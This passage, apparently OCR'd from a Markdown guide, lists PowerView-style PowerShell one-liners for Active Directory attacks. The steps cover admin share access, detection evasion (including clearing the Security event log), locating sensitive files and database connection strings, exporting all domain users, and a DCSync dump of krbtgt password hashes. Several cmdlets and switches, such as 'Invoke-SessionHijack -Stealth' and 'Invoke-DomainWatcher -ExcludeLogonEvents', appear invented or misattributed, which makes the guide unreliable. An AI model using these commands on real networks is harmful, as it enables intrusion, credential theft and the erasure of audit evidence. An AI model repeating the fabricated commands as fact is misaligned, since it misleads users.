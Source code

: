     ```
4. **Accessing Admin Shares**: Verifies whether the user has access to administrative shares, which can be used for file uploads, remote code execution, or further reconnaissance.
    ```powershell
    Invoke-CheckLocalAdminAccess -Verbose
    ```

#### Defense Evasion

PowerView includes various techniques for evading detection while performing reconnaissance and privilege escalation in an Active Directory environment.

1. **Stealthy AD Enumeration**: Performs Active Directory user enumeration while minimizing network traffic and reducing the risk of detection.
    ```powershell
    Get-NetUser -Stealth
    ```
2. **Hiding Network Sessions**: Hijacks active sessions stealthily, avoiding alerting administrators or triggering detection mechanisms.
    ```powershell
    Invoke-SessionHijack -Stealth
    ```
3. **Avoiding Audit Logs**: Excludes certain logon events from audit logs, making it harder for defenders to detect unauthorized access.
    ```powershell
    Invoke-DomainWatcher -ExcludeLogonEvents
    ```
4. **Clearing Event Logs**: Erases the security log, which can hide evidence of an attack.
    ```powershell
    Clear-EventLog -LogName "Security"
    ```

#### Data Exfiltration

PowerView can assist in identifying sensitive data, such as credentials and configuration files, and exfiltrating it from the network.

1. **Searching for Sensitive Files on Shares**: Searches for sensitive file types across network shares, which may contain valuable business information.
    ```powershell
    Invoke-FileFinder -FileExtensions "doc,xls,pdf"
    ```
2. **Extracting Database Connection Strings**: Extracts database connection strings from Group Policy Objects, which may be used to exfiltrate sensitive data from databases.
    ```powershell
    Get-NetGPO -Grep "ConnectionString"
    ```
3. **Exporting User Information**: Exports all domain user information to a CSV file, which can be exfiltrated for further analysis.
    ```powershell
    Get-NetUser | Export-Csv -Path "C:\Temp\DomainUsers.csv"
    ```
4. **Dumping Password Hashes from Domain Controllers**: Dumps the password hashes of domain users using the DCSync attack technique, a highly effective way to exfiltrate credentials.
    ```powershell
    Invoke-DCSync -UserName "krbtgt"
    ```
